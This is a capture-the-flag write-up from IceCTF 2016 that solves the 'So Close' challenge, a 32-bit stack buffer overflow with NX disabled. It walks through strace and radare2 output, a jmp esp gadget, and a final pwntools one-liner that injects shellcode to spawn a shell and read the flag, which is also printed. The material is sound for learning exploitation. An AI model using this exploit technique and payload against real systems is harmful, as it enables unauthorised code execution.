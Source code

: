 Title: IceCTF 2016 - So Close
Date: 2016-09-02 14:00
Category: CTF
Tags: icectf2016 ctf pwn
Slug: icectf-2016-so-close
Authors: wumb0

Challenge description
> Yet so far :(
> /home/so_close on the shell.

Jumping right in I checked the binary's security with checksec and loaded it up in radare2:
<script type="text/javascript" src="https://asciinema.org/a/967jkjxy4qlevon796harltie.js" id="asciicast-967jkjxy4qlevon796harltie" async></script>
No NX and a call to read over stack data... sounds like a simple stack based buffer overflow.
[[more]]

The buffer that is read into is of size 0x118 - 0x10 = 264 bytes. Since I'm lazy I used strace to figure out the number of bytes it was reading:
```
→ strace ./so_close 1000
execve("./so_close", ["./so_close", "1000"], [/* 29 vars */]) = 0
[ Process PID=20494 runs in 32 bit mode. ]
brk(0)                                  = 0x93a6000
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xfffffffff7746000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=50645, ...}) = 0
mmap2(NULL, 50645, PROT_READ, MAP_PRIVATE, 3, 0) = 0xfffffffff7739000
close(3)                                = 0
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/i386-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\1\1\1\0\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0P\234\1\0004\0\0\0"..., 512) = 512
fstat64(3, {st_mode=S_IFREG|0755, st_size=1754876, ...}) = 0
mmap2(NULL, 1763964, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xfffffffff758a000
mprotect(0xf7732000, 4096, PROT_NONE)   = 0
mmap2(0xf7733000, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1a8000) = 0xfffffffff7733000
mmap2(0xf7736000, 10876, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0xfffffffff7736000
close(3)                                = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xfffffffff7589000
set_thread_area(0xffe6f130)             = 0
mprotect(0xf7733000, 8192, PROT_READ)   = 0
mprotect(0xf7769000, 4096, PROT_READ)   = 0
munmap(0xf7739000, 50645)               = 0
fstat64(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 7), ...}) = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xfffffffff7745000
write(1, "something something something..\n", 32something something something..
) = 32
read(0, "", 272)                        = 0
exit_group(0)                           = ?
+++ exited with 0 +++
```

Looks like 272 bytes. So 272 over a 264 byte buffer means a 12 byte overflow. That doesn't sound like a lot, so I loaded up ing gdb and passed in a cyclic pattern:
<script type="text/javascript" src="https://asciinema.org/a/6cze13243l5zuxr2vmr6bx8lm.js" id="asciicast-6cze13243l5zuxr2vmr6bx8lm" async></script>

So I control EIP and what ESP points to, which are one right after the other in the buffer. Looking at the contents of ECX shows that it is the start of the input buffer. If there was some way to jump to ECX then I could execute shellcode, since NX was disabled. After a bit of tinkering, my solution ended up being to find a `jmp esp`, and assemble  `jmp ecx` where ESP was pointing. I assumed ASLR was enabled, but it should not matter in this case. 

The steps I needed to take are as follows:

1. Find a `jmp esp` in the binary  
2. Assemble `jmp ecx` and figure out it's length so I know how to craft the exploit buffer  
3. Craft an exploit buffer  
4. ????  
5. Profit :)  

To find a `jmp esp` all I needed to do was use the assembly opcode search feature of radare2:
```
/c jmp esp
0x0804859f   # 2: jmp esp
```

Score. Next, assembling `jmp ecx` was done with the `asm` function of pwntools:
```
python -c 'from pwn import *;len(asm("jmp ecx"))'
2
```

Then, crafting an exploit buffer... I needed the buffer to look something like this:

`[shellcode][asm(jmp ecx)*2][jmp esp][asm(jmp ecx)*2][jmp esp][asm(jmp ecx)*2][jmp esp]...`

`[asm(jmp ecx)*2][jmp esp]` would need to repeat until the end of the buffer to cause the overflow to happen. With this in mind I began to experiment in gdb to eventually get a shell:

<script type="text/javascript" src="https://asciinema.org/a/3ztqtfy8ykstkr0bh00cvyel5.js" id="asciicast-3ztqtfy8ykstkr0bh00cvyel5" async></script>

A little recap of what happened in that last video:

- The length of the shellcode generated by pwntools was 22 bytes  
- The total buffer length needed to be 268 to overflow properly  
- 268-22 is the needed length minus the shellcode length  
- ("iiii" + "jjjj") was multiplied by ((268-22)/8) because of the length required after shellcode and because it was 8 bytes long. However, extra padding (the "aaaaaa") needed to be added because 268-22 is 246, which when divided by 8 is 30R6. That remainder needs to be fulfilled in order to make the buffer long enough to trigger the bug  
- "iiii" was replaced with `asm("jmp ecx")*2` because it was the contents of where esp was pointing. It was multiplied by 2 to fit our test with "iiii" and "jjjj" because it is two bytes in length when assembled (\*2 is the 4 bytes needed).  
- "jjjj" was replaced with `0x0804859f` because that is the address of `jmp esp` we found above. "jjjj" was in for our test, so in order to make the program execute the `jmp ecx` we assembled earlier. We need that `jmp esp` because esp points to our assembled `jmp ecx`.  
- Remember that our shellcode is located at the beginning of the buffer, and ecx points to the beginning of the buffer. So jumping to ecx executes the shellcode.  
- ;cat was added to the end of the python command to keep stdin open. This is a common trick for exploitation problems. [check here for a bit of detail](http://unix.stackexchange.com/a/103893)  

Running this on the binary on the server gave the following:
```
(python -c 'from pwn import *; print asm(shellcraft.i386.linux.sh()) + (asm("jmp ecx")*2 + p32(0x0804859f))*((268-22)/8) + "aaaaaa"'; cat) | /home/so_close/so_close
something something something..
cat /home/so_close/flag.txt
IceCTF{eeeeeeee_bbbbbbbbb_pppppppp_woooooo}
```

Flag: 
**IceCTF{eeeeeeee_bbbbbbbbb_pppppppp_woooooo}**
